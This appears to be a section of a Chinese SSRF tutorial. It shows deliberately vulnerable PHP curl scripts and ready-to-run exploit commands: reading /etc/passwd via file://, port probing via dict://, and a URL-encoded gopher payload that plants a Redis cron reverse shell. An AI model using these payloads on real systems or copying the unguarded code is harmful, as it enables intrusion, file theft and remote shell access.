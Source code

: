 ### 2.2 远程利用

漏洞代码`ssrf.php`（未做任何SSRF防御）

```php
function curl($url){  
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}

$url = $_GET['url'];
curl($url); 
```

远程利用方式：

```
# 利用file协议任意文件读取
curl -v 'http://sec.com:8082/sec/ssrf.php?url=file:///etc/passwd'

# 利用dict协议查看端口
curl -v 'http://sec.com:8082/sec/ssrf.php?url=dict://127.0.0.1:22'

# 利用gopher协议反弹shell
curl -v 'http://sec.com:8082/sec/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A6379%2F_%2A3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2456%250d%250a%250d%250a%250a%250a%2A%2F1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F127.0.0.1%2F2333%200%3E%261%250a%250a%250a%250d%250a%250d%250a%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2A1%250d%250a%244%250d%250asave%250d%250a%2A1%250d%250a%244%250d%250aquit%250d%250a'
```

漏洞代码`ssrf2.php`

- 限制协议为HTTP、HTTPS
- 设置跳转重定向为True（默认不跳转）

```php
<?php
function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION, True);
    // 限制为HTTPS、HTTP协议
    curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}

$url = $_GET['url'];
curl($url);
?>
```
